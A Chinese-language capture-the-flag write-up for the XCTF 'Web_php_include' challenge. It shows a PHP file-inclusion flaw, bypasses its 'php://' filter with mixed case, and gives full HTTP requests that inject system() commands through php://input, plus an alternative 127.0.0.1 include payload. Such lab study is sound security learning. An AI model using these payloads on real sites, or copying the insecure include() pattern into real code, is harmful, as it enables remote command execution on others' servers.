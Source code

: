 # Web_php_include

```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

使用 `GET` 方式上传的 `hello` 直接显示它的内容. 同样使用 `GET` 方式上传的 `page` 会经过检查 `strstr($page, "php://")`. 如果包含任何 `php://` 都会删除. 然后读取文件 `page` 的内容.

我们可以简单绕过 `strstr()` 使用大小写, 利用伪协议执行 `Linux` 命令.

```
GET /?hello=1%0a&page=pHp://input HTTP/1.1
Host: 111.200.241.244:63890
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 22

<?php system("ls"); ?>
```

得到 `flag` 文件 `fl4gisisish3r3.php`.

最后只需要读取这文件:

```
GET /?hello=1%0a&page=pHp://input HTTP/1.1
Host: 111.200.241.244:63890
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 42

<?php system("cat fl4gisisish3r3.php"); ?>
```

`xctf` 的解题方式很漂亮: 

`?page=http://127.0.0.1/index.php/?hello=<?system("ls");?>`

利用 `hello` 执行命令写在 `http://127.0.0.1/index.php` 上, 然后用 `include($page)` 读取内容.
